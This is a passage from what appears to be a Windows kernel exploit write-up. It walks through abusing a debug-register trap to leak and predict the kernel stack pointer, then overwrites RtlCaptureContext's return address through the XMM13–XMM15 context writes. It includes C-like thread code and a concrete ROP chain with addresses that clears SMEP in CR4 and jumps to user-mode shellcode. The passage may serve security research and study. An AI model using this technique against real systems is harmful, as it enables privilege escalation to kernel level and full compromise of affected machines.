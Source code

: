 ```
```

We will set DR1 on gs:20h + 0x100 + 0xA0, and make KeBugCheckEx return back to KiDebugTrapOrFault just after it saves the value of CR4.

To overwrite the return pointer, we will first let KiDebugTrapOrFault->…->RtlCaptureContext execute once giving our user-mode thread an initial RSP value, then we will let it execute another time to get the new RSP, which will let us calculate per-execution RSP difference. This RSP delta will be constant because the control flow is also constant.

Now that we have our RSP delta, we will predict the next value of RSP, subtract 8 from that to calculate the return pointer of RtlCaptureContext and make Prcb.Context->Xmm13 – Prcb.Context->Xmm15 written over it.

Thread logic will be like the following:

```
volatile PCONTEXT Ctx = *( volatile PCONTEXT* ) ( Prcb + Offset_Prcb__Context );

while ( !Ctx->Rsp );											                // Wait for RtlCaptureContext to be called once so we get leaked RSP
uint64_t StackInitial = Ctx->Rsp;
while ( Ctx->Rsp == StackInitial );								       // Wait for it to be called another time so we get the stack pointer difference 
                                                          // between sequential KiDebugTrapOrFault
StackDelta = Ctx->Rsp - StackInitial;
PredictedNextRsp = Ctx->Rsp + StackDelta;						     // Predict next RSP value when RtlCaptureContext is called
uint64_t NextRetPtrStorage = PredictedNextRsp - 0x8;			// Predict where the return pointer will be located at
NextRetPtrStorage &= ~0xF;
*( uint64_t* ) ( Prcb + Offset_Prcb__Context ) = NextRetPtrStorage - Offset_Context__XMM13;	
                                                          // Make RtlCaptureContext write XMM13-XMM15 over it

```

Now we simply need to set-up a ROP chain and write it to XMM13-XMM15. We cannot predict which half of XMM15 will get hit due to the mask we apply to comply with the movaps alignment requirement, so first two pointers should simply point at a [RETN] instruction.

We need to load a register with a value we choose to set CR4 so XMM14 will point at a [POP RCX; RETN] gadget, followed by a valid CR4 value with SMEP disabled. As for XMM13, we are simply going to use a [MOV CR4, RCX; RETN;] gadget followed by a pointer to our shellcode.

The final chain will look something like:

```
-- &retn;                (fffff80372e9502d)
-- &retn;                (fffff80372e9502d)
-- &pop rcx; retn;       (fffff80372ed9122)
-- cr4_nosmep            (00000000000506f8)
-- &mov cr4, rcx; retn;  (fffff803730045c7)
-- &KernelShellcode      (00007ff613fb1010)

```
